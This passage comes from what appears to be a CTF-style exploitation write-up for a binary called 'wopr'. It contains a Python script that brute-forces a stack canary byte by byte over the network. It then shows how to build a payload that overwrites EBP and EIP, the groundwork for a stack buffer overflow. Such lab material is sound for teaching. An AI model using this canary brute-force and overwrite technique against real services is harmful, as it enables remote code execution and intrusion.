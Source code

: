```python
	for byte in xrange(length):
		#try this many bytes for the canary
		#this code just generates the bytes 0-255 and converts them to characters
		for canary_byte in xrange(256):
			hex_byte = chr(canary_byte)
			#build up the payload using our predicted offset and brute force
			#the canary one byte at a time
			payload="A"*offset + canary + hex_byte
			result = sendRequest(target,port,payload)
			#if the canary byte was correct then "bye" is returned in the response
			if "bye" in result:
				canary += hex_byte
				break
	return canary


if len(sys.argv) < 4:
	print "[-] usage: python get_canary.py [ip] [port] [eip-offset] [canary-size]"
	exit(0)
else:
	target = sys.argv[1]
	port = int(sys.argv[2])
	eipoffset = int(sys.argv[3])
	canarysize = int(sys.argv[4])
	
	canaryOffset = getCanaryOffset()
	payload = bruteForceCanary(canaryOffset,canarysize)
	print "[+] Saving payload to payload.txt"
	fp = open("payload.txt", "w")
	fp.write("A"*canaryOffset + payload)
	fp.close()
```

If we give it a whirl we see the following:

![wopr-run-get_canary.png](/assets/img/wopr/wopr-run-get_canary.png)

We are writing 30 A's followed by the canary value to payload.txt so we can use it in our
testing:

![wopr-cat-payload.png](/assets/img/wopr/wopr-cat-payload.png)

Going back to our original concept that on the stack we have
```[Local Variables][Stack Canary][EBP][EIP]```
If we add BBBBCCCC to the end of payload.txt we should overwrite EBP with BBBB
(42424242) and EIP with CCCC (43434343) we can do this with the following command:
**echo -n $(cat payload.txt)BBBBCCCC > new-payload.txt**

It uses substitution to read payload.txt and echo (-n is for no new line characters) it out
along with BBBBCCCC back to payload.txt:

![wopr-cat-payload2.png](/assets/img/wopr/wopr-cat-payload2.png)

For the remainder of our debugging adventures we will use the following two commands:
```
set follow-fork-mode child